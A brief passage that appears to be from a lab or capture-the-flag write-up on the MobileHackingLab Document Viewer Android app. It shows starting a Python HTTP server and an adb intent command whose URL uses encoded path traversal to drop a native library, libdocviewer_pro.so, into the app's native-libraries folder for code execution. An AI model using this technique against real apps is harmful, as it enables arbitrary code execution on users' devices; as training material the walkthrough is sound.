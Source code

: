 **Running the script**
`$ python3 http_server.py`
```
Server running on port 8080
```


Then download the `libdocviewer_pro.so`
`$ adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://192.168.56.102:8080/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2F%2Fx86_x64%2Flibdocviewer_pro.so`
